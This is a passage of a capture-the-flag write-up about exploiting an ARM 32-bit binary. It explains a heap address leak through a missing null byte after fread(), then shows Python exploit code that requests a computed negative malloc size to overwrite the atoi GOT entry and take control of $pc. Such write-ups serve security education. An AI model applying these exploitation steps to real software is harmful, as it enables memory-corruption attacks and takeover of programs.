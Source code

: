 So what size do we need for the *name* chunk? We know that the *key* chunk can
write 16 bytes, so 4 DWORD. And also, the target address must be aligned to 2
DWORD (8 bytes - because it is an ARM 32 bits).

![got](https://i.imgur.com/DQjJxu6.png)



#### Leaking heap memory ####

But we have a problem, we don't know where the heap pages are located in the memory
layout. Lucky for us, the "authentication" function (`get_key_security()`) uses
`fread()`, which unlike
`fgets()` does not append a NULL byte at the end of the string.

![auth-func](https://i.imgur.com/Wml7uwI.png)

This allows to leak addresses some precious bytes from the heap, doing something like this:

{% highlight python %}
def auth(s):
    s.read_until("please input your 8-bit key:")
    s.write("A"*8)
    leak = s.read_until("\n")
    leak = leak.replace(" is wrong, try again!\n", '')
    leak = leak.replace('A'*8, '')
    if len(leak)<4: leak += "\x00"*(4-len(leak))
    leak = i_u(leak)
    s.read_until("please input your 8-bit key:")
    s.write("security")
    return leak
{% endhighlight %}


#### Controlling $pc ####

From the heap memory leak, we know the address of the `secret` chunk, which
means that the `name` chunk headers will be located exactly 8 bytes after.

{% highlight bash %}
     +----------+-----------+...+----------+
     |  secret  |  name     |   | key      |
     +----------+-----------+...+----------+
{% endhighlight %}

So we must set the length for the `name` chunk dynamically by using the
`update_key()` function:

{% highlight python %}
ATOI_GOT   = 0x00010F80 - 2*8
[...]
def sign_name(s, addr):
    select_menu_entry(s, 3)
    new_sz = -addr + ATOI_GOT
    name = "JUNK"*8
    ok("malloc(name) with size=%#x" % new_sz)
    s.read_until("please input your name length:")
    s.write("%d\n" % new_sz)
    s.read_until("enter your name:")
    s.write(name)
    return

secret_addr    = leak - 8
name_addr      = secret_addr + 8 + 8

sign_name(s, name_addr)
{% endhighlight %}
